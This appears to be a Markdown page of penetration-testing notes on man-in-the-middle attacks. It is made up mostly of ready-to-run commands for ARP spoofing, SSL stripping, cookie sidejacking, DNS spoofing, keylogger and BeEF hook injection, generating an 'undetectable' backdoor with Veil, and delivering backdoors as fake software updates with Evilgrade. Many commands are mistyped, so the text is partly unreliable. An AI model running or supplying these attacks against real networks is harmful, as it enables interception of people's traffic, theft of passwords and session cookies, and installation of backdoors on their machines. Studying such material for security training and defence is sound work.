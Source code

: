# Main In The Middle Attacks

### ARP Poisoning

This is one of the most dangerous and effective attacks that can be used to *redirect packets to and from any client to our device* and since we have the network key, we can read/modify/drop the packets. This allows us to launch very powerful attacks. It's very hard to protect against it as it exploits the insecure way that ARP works.

ARP security issues:
- Each ARP request/response is trusted.
- Clients can accept responses even if they did not send request.

**ARPSPOOF**

Arpspoof is a tool part of a suit called dnsiff, which contains a number of network penetration tools. Arpspoof can be used to launch a MITM and redirect traffic to flow through our device.

1. Command tell the  target client that I am the router.
```
arpspoof -i [interface] -t [target IP] [AP IP]
Ex: arpsoof -i wlan0 -t 192.168.1.5 192.168.1.1
````

2. Command tell the AP that I am the target client.
```
aprspoof -i [interface] -t [AP IP][target IP]
Ex: arpsoof -i wlan0 -t 192.168.1.1 192.168.1.5
```

3. Enable IP forward to allow packets to flow through our device without being dropped.
`Echo 1> /proc/sys/net/ipv4/ip_froward`

## MAN IN THE MIDDLE FRAMEWORK (MITMf)

MITMf is a framework that allows to launch a number of MITM attacks. MITMf also starts SSLstrip automatically to bypass HTTPS/SSL.

```
mitmf-arp-spoof-gateway [GATEWAY IP] --targets [TARGET IPs] -i [interface]
Ex: mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 - eth0/wlan0
```

`echo 1 > /proc/sys/net/ipv4/ip_forward`

If you get error like `Import Error: No module named bdfactory` then you have to install first **the-backdoor-factory** module.

`https://github.com/secretsquirrel/the-backdoor-factory`

`apt-get update`
`apt-get install backdoor-factory`

If you get this error agian then you have to isntall manually.

```
git clone https://github.com/secretsquirrel/the-backdoor-factory.git
mkdir /usr/share/mitmf/bdfactory
cd the-backdoor-factory
cp -r ./* /usr/share/mitmf/bdfactory/ 
cd /usr/share/mitmf/bdfactory
```
### Bypassing HTTPS

Most of the website use https in their registration pages. These pages are validated using an SSL certificate and there for will show a warning to the user that the certificate is valaid. SSLstrip is a tool that can be used to downgrade HTTPs requests to HTTP allowing us to sniff passwords without displaying a warning to the user.

*Note: MITMf starts SSLstrip.*

### Session Hijacking

If the user uses this feature hte authentication happens using the cookies and not the user and password. So instead of sniffing the password we can sniff the cookies and inject them into our browser, this will allows us to login to the user's account without using the password.

`apt-get intall ferret-sidejack`

`ferret -i [interface]`

`hamster`

### DNS Spoofing

DNS Spoofing allows us to refirect any request to a certain domain to another domain. We have to run apache server.

`service apache2 start`

1. Edit DNS settings.

`leafpad /etc/mitmf/mitmf.conf`

2. Run ettercap to arp poison target (s) and enable the dns_spoof plugin.

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --dns
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --dns
```

### Capturing Screen of Target & Injecting a Keylogger

Default Interval 10s
```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen

mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen --interval 5
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen --interval 5
```

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --jskeylogger
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --jskeylogger
```

Note: If you get *AttributeError: ClientRequest instance has no attribute 'headers'* this error then you have to install *twisted* python module.

`pip install Twisted==15.5.0`

## Beef Framework

Browser Exploitation Framework allowing us to launch a number of attacks on a hooked target. Target are hooked once they load a hook url.

- DNS spoof requests to a page containing a hook
- Inject the hook in browser pages (need to be MITM)

### Hooking Clients To Beef & Stealing Passwords

First run **Beef** tools. Its a default pentesting tool in kali. Login hook. Its username and password is beef.

Then we will **mitmf** using this command:

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --inject --js-url http://
mitmf --arp --spoof --gateway 10.20.14.1 --target 10.20.14.216 -i wlan0 --inject --js-url http://10.20.14.203:3000/hook.js
```

## WIRESHARK

Wireshark is a network protocol analyser tool. Designed to help network administrators to keep track of what is happening in their network. Its not designed for hackers or hacking but a hacker knows how to use network tools for there own purpose.

How it works?

- Logs packets that flow through the slelected interface.
- Analyse all the packets.

*When we are the MITM, sireshark can be used to sniff and analyse traffic sent/received by targes.*

## Generating An Undetecttable Backdoor

- Install veil-evasion			`apt-get install veil-evasion`
- Run veil-evasion				`veil`
- Select a backdoor / payload	`use [payload number]`
- Set options					`set [option] [value]`
- Generate Backdoor				`generate`

## CREATE A FAKE UPDATE

- Fake an update for an already installed program.
- Install backdoor instead of the update.
- Requires DNS spoofing + Evilgrade (a server to server the update).

1. Download and install Evilgrade using the instructions in the resources.

2. Start evilgrade.

`evilgrade`

3. Check program then can be hijacked.

`show modules`

4. Select one.

`configure [module]`

5. Set backdoor location.

`set agent [agent location]`

6. Start server

`start`

7. Start dns spoofing and handler.

